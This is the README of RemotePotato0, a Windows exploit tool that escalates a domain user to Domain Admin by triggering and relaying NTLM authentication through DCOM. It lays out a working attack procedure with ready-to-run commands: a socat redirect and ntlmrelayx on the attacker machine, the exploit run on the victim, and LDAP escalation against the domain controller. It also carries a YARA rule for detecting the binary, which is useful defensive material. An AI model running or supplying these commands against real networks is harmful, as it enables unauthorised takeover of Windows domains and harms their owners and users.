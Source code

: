 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine.
It is required you have a shell in session 0 (e.g. WinRm shell or SSH shell) and that a privileged user is logged on in the session 1 (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

## Example

Attacker machine (10.0.0.11):

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.11:1111 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --escalate-user winrm_user --no-wcf-server
```

Victim machine (10.0.0.20):

```
.\RemotePotato0.exe -r 10.0.0.20 -p 1111
```

Victim Domain Controller (10.0.0.10)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

## Demo

<img src="demo.gif">

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = ""
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
